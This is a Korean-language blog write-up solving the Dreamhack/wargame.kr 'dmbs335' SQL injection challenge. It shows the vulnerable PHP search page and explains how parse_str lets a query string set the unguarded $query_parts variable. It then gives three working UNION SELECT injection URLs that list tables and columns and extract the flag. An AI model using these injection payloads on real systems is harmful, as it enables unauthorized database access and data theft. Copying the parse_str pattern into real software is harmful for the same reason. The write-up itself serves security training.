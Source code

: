 ```yaml
---
title: (44) Dreamhack [wargame.kr] dmbs335 문제 풀이
date: 2024-03-03 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
```
SQL injection Challenge!
(injection)

- thx to dmbs335
```

## 문제 풀이
사이트에 접속한 모습입니다.
![](https://kyuyeop.github.io/assets/img/post/44/1.png)

바로 코드부터 확인해보겠습니다.
```php
<?php 

if (isset($_GET['view-source'])) {
        show_source(__FILE__);
        exit();
}

include("./inc.php"); // Database Connected

function getOperator(&$operator) { 
    switch($operator) { 
        case 'and': 
        case '&&': 
            $operator = 'and'; 
            break; 
        case 'or': 
        case '||': 
            $operator = 'or'; 
            break; 
        default: 
            $operator = 'or'; 
            break; 
}} 

if(preg_match('/session/isUD',$_SERVER['QUERY_STRING'])) {
    exit('not allowed');
}

parse_str($_SERVER['QUERY_STRING']); 
getOperator($operator); 
$keyword = addslashes($keyword);
$where_clause = ''; 

if(!isset($search_cols)) { 
    $search_cols = 'subject|content'; 
} 

$cols = explode('|',$search_cols); 

foreach($cols as $col) { 
    $col = preg_match('/^(subject|content|writer)$/isDU',$col) ? $col : ''; 
    if($col) { 
        $query_parts = $col . " like '%" . $keyword . "%'"; 
    } 

    if($query_parts) { 
        $where_clause .= $query_parts; 
        $where_clause .= ' '; 
        $where_clause .= $operator; 
        $where_clause .= ' '; 
        $query_parts = ''; 
    } 
} 

if(!$where_clause) { 
    $where_clause = "content like '%{$keyword}%'"; 
} 
if(preg_match('/\s'.$operator.'\s$/isDU',$where_clause)) { 
    $len = strlen($where_clause) - (strlen($operator) + 2);
    $where_clause = substr($where_clause, 0, $len); 
} 


?>
<style>
    td:first-child, td:last-child {text-align:center;}
    td {padding:3px; border:1px solid #ddd;}
    thead td {font-weight:bold; text-align:center;}
    tbody tr {cursor:pointer;}
</style>
<br />
<table border=1>
    <thead>
        <tr><td>Num</td><td>subject</td><td>content</td><td>writer</td></tr>
    </thead>
    <tbody>
        <?php
            $result = mysql_query("select * from board where {$where_clause} order by idx desc");
            while ($row = mysql_fetch_assoc($result)) {
                echo "<tr>";
                echo "<td>{$row['idx']}</td>";
                echo "<td>{$row['subject']}</td>";
                echo "<td>{$row['content']}</td>";
                echo "<td>{$row['writer']}</td>";
                echo "</tr>";
            }
        ?>
    </tbody>
    <tfoot>
        <tr><td colspan=4>
            <form method="">
                <select name="search_cols">
                    <option value="subject" selected>subject</option>
                    <option value="content">content</option>
                    <option value="content|content">subject, content</option>
                    <option value="writer">writer</option>
                </select>
                <input type="text" name="keyword" />
                <input type="radio" name="operator" value="or" checked /> or &nbsp;&nbsp;
                <input type="radio" name="operator" value="and" /> and
                <input type="submit" value="SEARCH" />
            </form>
        </td></tr>
    </tfoot>
</table>
<br />
<a href="./?view-source">view-source</a><br />
```
문제는 sqli를 이용해야 하는것 같습니다. sqli가 가능한 곳이 어디인지 확인해봅시다.  
먼저 `search_cols`에 대해서 살펴보면 `|`를 기준으로 나눈 문자열들이 `^(subject|content|writer)$`라는 regex를 만족해야 입력값이 반영될 수 있고, 나머지의 경우 빈 값이 들어가게 되는군요. 여긴 힘들어 보입니다.  
다음은 `keyword`입니다. 이건 `$keyword = addslashes($keyword);`로 따옴표 같은 문자를 역슬래시 처리하기 때문에 불가능하겠고요.  
그리고 `operator`는 `getOperator`함수로 인해 `or` 또는 `and`만 가능하도록 설계되었네요.  
  
그럼 취약점이 없는것 처럼 보입니다.  
하지만 숨겨진게 더 있죠. 바로 `query_parts`라는 변수입니다. 이 변수는 조건을 맞추면 초기화가 되지 않고 쿼리문을 조작할 수 있습니다.  
이 취약점은 쿼리를 가져올 때 `parse_str($_SERVER['QUERY_STRING']);`로 가져오기 때문에 생긴 취약점입니다. 이 함수는 쿼리 스트링으로 부터 변수를 생성해내는 엄청난 녀석입니다.
이 취약점은 굉장히 강력하기 때문에 공식 페이지에도 다음과 같이 써있습니다.
```
Warning
Using this function without the result parameter is highly DISCOURAGED and DEPRECATED as of PHP 7.2. As of PHP 8.0.0, the result parameter is mandatory.

경고문
result 매개변수 없이 이 함수를 사용하는 것은 PHP 7.2에서 매우 권장 및 권장되지 않습니다. PHP 8.0.0에서는 result 매개변수가 필수입니다.
```
그럼 취약점을 활용해 보겠습니다. `query_parts`를 원하는 대로 변경하려면 변수가 초기화되지 않도록 해야 합니다. 이 변수가 초기화 되는 곳은 `if($col)`조건문의 내부이므로 취약점을 사용하기 위해선 변수 `col`이 빈 값이여야 합니다.  
이게 빈 값이 되려면 `col`의 값이 `^(subject|content|writer)$`에 해당하지 않으면 됩니다. 따라서 쿼리에서 빈 값이나 `a`같은 관련 없는 값을 넘기기만 하면 됩니다. 나머지는 `where_clause`에 할당될 때 `#`으로 우회할 수 있기 때문에 상관없습니다.  
  
아마도 다른 테이블 어딘가에 숨겼을 확률이 높으니 어떤 테이블이 있는지 찾아봅시다.
```
http://host3.dreamhack.games:19743/?search_cols=&keyword=&operator=or&query_parts=0%20union%20select%20null,table_name,null,null%20from%20information_schema.tables#
```
이렇게 들어가면 누가봐도 수상한 이름의 테이블이 보입니다.
![](https://kyuyeop.github.io/assets/img/post/44/2.png)

그리고 칼럼명도 알아내야 겠죠?
```
http://host3.dreamhack.games:19743/?search_cols=&keyword=&operator=or&query_parts=0%20union%20select%20null,column_name,null,null%20from%20information_schema.columns#
```
또 누가봐도 수상한 이름의 칼럼이 보이네요.
![](https://kyuyeop.github.io/assets/img/post/44/3.png)

테이블도 칼럼도 알아냈으니 마지막으로 flag를 얻어봅시다.
```
http://host3.dreamhack.games:19743/?search_cols=&keyword=&operator=or&query_parts=0%20union%20select%20null,f1ag,null,null%20from%20Th1s_1s_Flag_tbl#
```
flag를 얻었습니다.
![](https://kyuyeop.github.io/assets/img/post/44/4.png)
{% endraw %}